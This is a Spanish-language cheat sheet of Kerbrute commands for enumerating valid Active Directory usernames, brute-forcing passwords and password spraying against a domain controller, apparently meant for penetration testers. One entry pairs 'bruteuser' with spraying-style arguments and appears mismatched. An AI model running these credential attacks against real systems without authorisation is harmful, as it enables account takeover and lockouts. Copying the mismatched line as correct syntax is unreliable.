 # Kerbrute Cheat Sheet

#### Enumerar usuarios validos
```
kerbrute userenum --dc <IP-TARGET> -d <DOMAIN> <WORDLISTS>
```

#### Enumerar usuarios validos y guardar el resultado
```
kerbrute userenum --dc <IP-TARGET> -d <DOMAIN> -o <OUTPUT> <WORDLISTS>
```

#### Fuerza bruta de contraseñas a un usuario en particular
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-PASSWORDS_LIST> <USER>
```

#### Fuerza bruta de una contraseña en particular a un listado de usuarios
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_LIST> <PASSWORD>
```

#### Password Spraying
```
kerbrute passwordspray --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_LIST> <PASSWORD>
```

#### Fuerza bruta desde un archivo con un listado con formato username:password
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_PASSWORD_LIST>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)